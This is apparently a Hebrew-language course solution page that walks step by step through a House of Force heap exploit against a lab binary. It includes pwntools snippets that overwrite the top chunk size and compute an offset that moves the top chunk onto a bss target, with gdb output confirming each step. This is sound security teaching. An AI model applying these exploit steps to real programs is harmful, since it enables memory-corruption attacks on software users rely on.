

repository: AmitPinchasi/amittech · page: מחקר-חולשות/7 - ניצול הHeap/7.5 - גלישת heap וטכניקות House of/7.5 - גלישת heap וטכניקות House of - פתרון/index.html · generator: mkdocs

## פתרון - overflow heap וטכניקות House of

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא לשתי הטכניקות. הכתובות בפלט הן דוגמה - אצלכם הן ישתנו בין הרצות (ASLR של ה-heap וה-stack), אז תמיד שלפו אותן מהleak ואל תקבעו אותן קשיח.

### פתרון תרגיל 1 - למפות את ה-heap

בדיקת ההגנות:

```bash
$ checksec --file=./hof
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

עכשיו מסתכלים על ה-heap ב-gdb. שמים breakpoint על ההוראה שאחרי ה-`malloc(0x18)` הראשון (או פשוט על `read`), ומריצים:

```text
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555559000
Size: 0x291              <-- tcache_perthread_struct

Allocated chunk | PREV_INUSE
Addr: 0x555555559290
Size: 0x21               <-- chunk A (malloc(0x18))

Top chunk | PREV_INUSE
Addr: 0x5555555592b0     <-- the top chunk
Size: 0x20d51
```

והleak של התוכנית:

```text
[leak] a = 0x5555555592a0
```

שימו לב: הleak `a = 0x5555555592a0` היא ה-mem של chunk A, וכותרת ה-top יושבת ב-`0x5555555592b0`. ההפרש הוא בדיוק `0x10`. הסיבה: `malloc(0x18)` מקבל chunk בגודל `0x20` (כותרת `0x10` + נתונים `0x18` מעוגלים ל-`0x10`... ליתר דיוק, `0x18` נתונים נכנסים ב-chunk `0x20` כי הבית האחרון חופף ל-`prev_size` של השכן). כותרת A ב-`a - 0x10`, ה-top ב-`(a - 0x10) + 0x20 = a + 0x10`. לכן `top = leak + 0x10`.

### פתרון תרגיל 2 - לדרוס את גודל ה-top

מ-`a` צריך `0x18` בתים כדי למלא את הנתונים של A ואת ה-`prev_size` של ה-top (`a+0x10`), ואז `8` בתים נוספים שדורסים את שדה ה-`size` של ה-top (`a+0x18`):

```python
p.recvuntil(b'[1] overflow: ')
p.send(b'A' * 0x18 + p64(0xffffffffffffffff))
```

מאמתים ב-gdb אחרי ה-`read`:

```text
pwndbg> top
Top chunk | PREV_INUSE
Addr: 0x5555555592b0
Size: 0xffffffffffffffff     <-- success, the top is now "infinite"
```

### פתרון תרגיל 3 - להזיז את ה-top ליעד

מחשבים את היעד ואת הגודל המרושע:

```python
target = elf.symbols['hook']                       # e.g. 0x404040, aligned to 16
evil_size = (target - 0x10 - top) & 0xffffffffffffffff
```

מכיוון ש-`target` (ב-bss, סביב `0x404040`) נמוך בהרבה מה-top (ב-heap, סביב `0x555555...`), ההפרש שלילי, וה-mask הופך אותו למספר unsigned ענק. שולחים אותו בעשרוני:

```python
p.recvuntil(b'[2] size: ')
p.sendline(str(evil_size).encode())
```

מאמתים אחרי ה-`malloc(n)`:

```text
pwndbg> top
Top chunk
Addr: 0x404030               <-- target - 0x10, exactly as we wanted
```

אם ה-top נחת על `0x404038` או `0x404028` במקום `0x404030`, זה עיגול של `request2size`. פשוט מוסיפים/מחסירים את ההפרש מ-`evil_size` וחוזרים. ברוב הגרסאות עם יעד aligned ל-16 זה נוחת בול.
